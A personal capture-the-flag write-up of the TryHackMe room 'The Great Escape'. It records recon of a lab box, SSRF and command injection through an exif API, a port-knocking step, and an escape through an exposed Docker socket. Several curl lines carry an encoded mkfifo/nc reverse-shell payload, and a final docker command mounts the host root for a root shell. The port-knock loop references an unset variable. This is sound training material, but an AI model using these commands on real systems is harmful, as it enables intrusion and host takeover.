


Name: The Great Escape
Date: 09/05/2022
Difficulty: Medium
Description: Our devs have created an awesome new site. Can you break out of the sandbox? 
Better Description: Not as much Docker as I would like.
Goals: Revise Docker rodeo for my Archive of notes; Get this learnt.
Learnt: I want to make a docker CTF that is actually fun; docker related stuff.

[used](https://blog.hydrashead.net/posts/thm-the-great-escape/) # avoid
[and this much better than official](https://t4r0.gitlab.io/posts/tryhackme/the-great-escape/thegreatescape/)
[this is the best one](https://m4t3sz.gitlab.io/bsc/writeup/thm/the_great_escape/)


Signup are prevented. Brute forcing is required which make me happy I did not waste my time here.

nmap find the api
```bash
/api/ /exif-util /*.bak.txt$
```
After being mess about with bruteforcing from the Official Writeup.
```
root@ip-10-10-128-153:~# curl http://10.10.109.192/.well-known/security.txt
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```
I went back to directory bust the http. Basically there is rate limiting to prevent rate request.
```bash
root@ip-10-10-128-153:~# curl http://10.10.109.192/.well-known/security.txt
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```
[this](https://infosecwriteups.com/bypassing-rate-limit-abusing-misconfiguration-rules-dcd38e4e1028) [and this](https://infosecwriteups.com/bypassing-rate-limit-like-a-pro-5f3e40250d3c)
```bash
# without a head request
root@ip-10-10-128-153:~# curl http://10.10.109.192/api/fl46 -v
*   Trying 10.10.109.192...
* TCP_NODELAY set
* Connected to 10.10.109.192 (10.10.109.192) port 80 (#0)
> GET /api/fl46 HTTP/1.1
> Host: 10.10.109.192
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 503 Service Temporarily Unavailable
< Server: nginx/1.19.6
< Date: Mon, 09 May 2022 18:34:53 GMT
< Content-Type: text/html
< Content-Length: 197
< Connection: keep-alive
< 
<html>
<head><title>503 Service Temporarily Unavailable</title></head>
<body>
<center><h1>503 Service Temporarily Unavailable</h1></center>
<hr><center>nginx/1.19.6</center>
</body>
</html>
* Connection #0 to host 10.10.109.192 left intact
```

I broke the box with bruteforcing and leaving it to do so while I researched so had to restart the box.
```bash
curl -I "http://10.10.201.106/api/fl46"
```
I then curl-ed the robots.txt
```bash
root@ip-10-10-128-153:~# curl "http://10.10.201.106/robots.txt"
User-agent: *
Allow: /
Disallow: /api/
# Disallow: /exif-util
Disallow: /*.bak.txt$
```
The robots.txt indicate that devs disallowing crawlers to crawl any file with .bak for BACKUP and .txt TEXT
```html
<template>
  <section>
    <div class="container">
      <h1 class="title">Exif Utils</h1>
      <section>
        <form @submit.prevent="submitUrl" name="submitUrl">
          <b-field grouped label="Enter a URL to an image">
            <b-input
              placeholder="http://..."
              expanded
              v-model="url"
            ></b-input>
            <b-button native-type="submit" type="is-dark">
              Submit
            </b-button>
          </b-field>
        </form>
      </section>
      <section v-if="hasResponse">
        <pre>
          {{ response }}
        </pre>
      </section>
    </div>
  </section>
</template>

<script>
export default {
  name: 'Exif Util',
  auth: false,
  data() {
    return {
      hasResponse: false,
      response: '',
      url: '',
    }
  },
  methods: {
    async submitUrl() {
      this.hasResponse = false
      console.log('Submitted URL')
      try {
        const response = await this.$axios.$get('http://api-dev-backup:8080/exif', {
          params: {
            url: this.url,
          },
        })
        this.hasResponse = true
        this.response = response
      } catch (err) {
        console.log(err)
        this.$buefy.notification.open({
          duration: 4000,
          message: 'Something bad happened, please verify that the URL is valid',
          type: 'is-danger',
          position: 'is-top',
          hasIcon: true,
        })
      }
    },
  },
}
</script>
```

This leak the domainname of the backup-api here:`const response = await this.$axios.$get('http://api-dev-backup:8080/exif'`
Tried Burp to view the request because although I love curl, something are best seen in burp.
```bash
POST /api/exif HTTP/1.1
Host: 10.10.201.106
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------6261114022025629085701805655
Content-Length: 270156
Origin: http://10.10.201.106
Connection: close
Referer: http://10.10.201.106/exif-util/
Cookie: auth.strategy=local

-----------------------------6261114022025629085701805655
Content-Disposition: form-data; name="file"; filename="AoC3-seperated-30opq.png"
Content-Type: image/png
```
The From url 

```
GET /api/exif?url=http:%2F%2Fasd.com HTTP/1.1
Host: 10.10.201.106
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.201.106/exif-util/
Cookie: auth.strategy=local
```


We then can try command injection with like so:
```bash
curl 'http://$IP/api/exif?url=http://api-dev-backup:8080/exif?url=;ls+-la+/'
```
Thankful this is my revision of Docker - thankful I am reading the write up and have been burnt a few times by a few CTF elements that are just not even used in real world:
Port knocking. 
The reason for this that with the command inject you 

```bash
root@ip-10-10-128-153:~# curl 'http://10.10.201.106/api/exif?url=http://api-dev-backup:8080/exif?url=;rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7C/bin/sh%20-i%202%3E&1%7Cnc%2010.10.128.153%209999%20%3E/tmp/f'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               sh: 1: Syntax error: end of file unexpected

root@ip-10-10-128-153:~# curl 'http://10.10.201.106/api/exif?url=http://api-dev-backup:8080/exif?url=;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E128%2E153%209999%20%3E%2Ftmp%2Ff'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               sh: 1: Syntax error: end of file unexpected

root@ip-10-10-128-153:~# curl 'http://10.10.201.106/api/exif?url=http://api-dev-backup:8080/exif?url=;rm%2520%252Ftmp%252Ff%253Bmkfifo%2520%252Ftmp%252Ff%253Bcat%2520%252Ftmp%252Ff%257C%252Fbin%252Fsh%2520%252Di%25202%253E%25261%257Cnc%252010%252E10%252E128%252E153%25209999%2520%253E%252Ftmp%252Ff'
An error occurred: HTTP Exception 400 Bad Request
                Response was:
                ---------------------------------------
                <-- 400 http://api-dev-backup:8080/exif?url=;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E128%2E153%209999%20%3E%2Ftmp%2Ff
Response : Bad Request
Length : 29
Body : Request contains banned words
Headers : (2)
Content-Type : text/plain;charset=UTF-8
Content-Length : 29
```
Filtering of some kind. The credentials you can get don't actually work, but there is a git log eluding to the need for port knocking...

The flag is here too.

In reading the [writeup](https://m4t3sz.gitlab.io/bsc/writeup/thm/the_great_escape/) discovered [endlessh](https://github.com/skeeto/endlessh)

```bash
for port in 42 1337 10420 6969 63000; do nmap -Pn --host_timeout 201 --max-retries 0 -p $X 10.10.201.106; done;
```


```bash
2375/tcp open  docker  Docker 20.10.2
| docker-version: 
|   GoVersion: go1.13.15
|   Arch: amd64
|   Version: 20.10.2
|   BuildTime: 2020-12-28T16:15:09.000000000+00:00
|   ApiVersion: 1.41
|   GitCommit: 8891c58
|   KernelVersion: 4.15.0-130-generic
|   Components: 
|     
|       Name: Engine
|       Details: 
|         GoVersion: go1.13.15
|         Arch: amd64
|         Os: linux
|         BuildTime: 2020-12-28T16:15:09.000000000+00:00
|         GitCommit: 8891c58
|         ApiVersion: 1.41
|         MinAPIVersion: 1.12
|         KernelVersion: 4.15.0-130-generic
|         Experimental: false
|       Version: 20.10.2
|     
|       Name: containerd
|       Details: 
|         GitCommit: 269548fa27e0089a8b8278fc4fc781d7f65a939b
|       Version: 1.4.3
|     
|       Name: runc
|       Details: 
|         GitCommit: ff819c7e9184c13b7c2607fe6c30ae19403a7aff
|       Version: 1.0.0-rc92
|     
|       Name: docker-init
|       Details: 
|         GitCommit: de40ad0
|       Version: 0.19.0
|   MinAPIVersion: 1.12
|   Os: linux
|   Platform: 
|_    Name: Docker Engine - Community
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: application/json
|     Date: Mon, 09 May 2022 20:09:00 GMT
|     Content-Length: 29
|     {"message":"page not found"}
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: application/json
|     Date: Mon, 09 May 2022 20:08:35 GMT
|     Content-Length: 29
|     {"message":"page not found"}
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Api-Version: 1.41
|     Docker-Experimental: false
|     Ostype: linux
|     Server: Docker/20.10.2 (linux)
|     Date: Mon, 09 May 2022 20:08:35 GMT
|     Content-Length: 0
|   docker: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.60%I=7%D=5/9%Time=627974C7%P=x86_64-pc-linux-gnu%r(Gener
SF:icLines,B,"ML7}z\)-TL\r\n");
MAC Address: 02:D5:DF:A8:D4:69 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.18 seconds
```
Enumerated away
[Archive/Docker/DockerHacking](https://github.com/7RU7H/Archive/Docker/DockerHacking)

```bash
root@ip-10-10-128-153:~# docker -H 10.10.201.106:2375 image ls
REPOSITORY                                    TAG                 IMAGE ID            CREATED             SIZE
exif-api-dev                                  latest              4084cb55e1c7        16 months ago       214MB
exif-api                                      latest              923c5821b907        16 months ago       163MB
frontend                                      latest              577f9da1362e        16 months ago       138MB
endlessh                                      latest              7bde5182dc5e        16 months ago       5.67MB
nginx                                         latest              ae2feff98a0c        17 months ago       133MB
debian                                        10-slim             4a9cd57610d6        17 months ago       69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3                 7331d26c1fdf        17 months ago       103MB
alpine                                        3.9                 78a2ce922f86        2 years ago         5.55MB

docker -H 10.10.230.170:2375 run -v /:/mnt --rm -it -d alpine:3.9 chroot /mnt sh # you get an root owned sh shell last flag is /root/root.txt
```
